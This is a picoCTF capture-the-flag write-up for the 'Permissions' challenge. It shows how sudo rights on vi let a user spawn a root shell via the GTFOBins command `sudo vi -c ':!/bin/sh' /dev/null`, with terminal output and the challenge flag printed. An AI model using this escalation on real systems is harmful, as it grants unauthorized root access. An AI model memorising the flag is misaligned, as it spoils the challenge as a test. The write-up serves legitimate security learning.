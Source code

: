 ```yaml
---
tags:
  - GTFO-Bins
  - priv-escalation
created: 2023-10-18
last_modified_at: 2024-02-02
---
```

# Permissions
---
### Description
---
Can you read files in the root file?

Additional details will be available after launching your challenge instance.
### Hints
---

> [!hint]- Hint(s)
> 1. https://gtfobins.github.io/gtfobins/vi/#sudo

### Step(s)
---
1. You first should find if the current user has any sudo permissions by using the command `sudo -l` 
	```bash
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

2. We see that we have permission to run vi with sudo. Checking GTFOBins we see that we can use the command `sudo vi -c ':!/bin/sh' /dev/null` which will give us root shell
3. just for viewing pleasure I usually will run `/bin/bash` to get a bash shell which is just more appealing and allows for using the up and down arrows
4. The root flag can be found as a "hidden" file in the root folder
```bash
picoplayer@challenge:~$ sudo vi -c ':!/bin/sh' /dev/null

# whoami
root
# ls /root
# ls -ahl /root
total 12K
drwx------ 1 root root   23 Aug  4 21:33 .
drwxr-xr-x 1 root root   51 Oct 17 17:50 ..
-rw-r--r-- 1 root root 3.1K Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4 21:33 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat /root/.flag.txt
picoCTF{uS1ng_v1m_3dit0r_3dd6dcf4}
```

<details>
  <summary>## Flag</summary>picoCTF{uS1ng_v1m_3dit0r_3dd6dcf4}
</details>